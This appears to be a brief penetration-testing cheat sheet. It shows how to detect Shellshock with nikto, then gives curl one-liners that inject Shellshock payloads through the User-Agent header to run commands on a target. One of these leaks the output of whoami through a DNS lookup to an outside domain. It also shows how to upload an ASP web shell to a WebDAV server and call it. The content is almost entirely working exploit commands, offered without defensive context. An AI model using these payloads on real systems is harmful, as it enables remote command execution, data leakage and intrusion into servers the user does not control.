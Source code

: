 - Detection

```
nikto -h <IP> -C all
```

- Exploit

```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" <IP>
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  <IP>
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" <IP>
```

### WebDAV

- Connect to WebDAV server and send malicious file to shell

```
cadaver http://<IP>/webdav
put <shell.asp>
```
```
curl -u "<user>:<password>" http://<IP>/webdav/shell.asp
```
https://github.com/notroj/cadaver

 
